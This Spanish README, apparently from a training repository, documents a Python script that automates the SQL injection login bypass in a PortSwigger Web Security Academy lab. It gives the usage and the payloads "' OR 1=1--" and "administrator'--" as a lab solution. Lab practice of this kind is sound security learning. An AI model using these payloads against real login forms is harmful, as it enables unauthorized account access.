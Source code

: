 # SQL Injection - Login Bypass (PortSwigger Lab)

Este script en Python automatiza un ataque de **SQL Injection** para omitir el inicio de sesión en un sitio vulnerable, como los propuestos en los laboratorios de [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/lab-login-bypass).

---

## Descripción del laboratorio

> Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de login.  
> Para resolver el laboratorio, realiza un ataque SQLi que permita iniciar sesión como el usuario **administrator**.

---

## Uso

```bash
python3 login_bypass_sqli.py <url_de_login> "<payload_sqli>"
```

## Requisitos

- Python 3
    
- Librerías necesarias:
    
    - `requests`
        
    - `beautifulsoup4`

Instala las dependencias con:

`pip install -r requirements.txt`

### Ejemplo

`python3 login_bypass_sqli.py "https://0aef00-lab.web-security-academy.net/login" "' OR 1=1--"`


>Respuesta: "<url>" "administrator'--"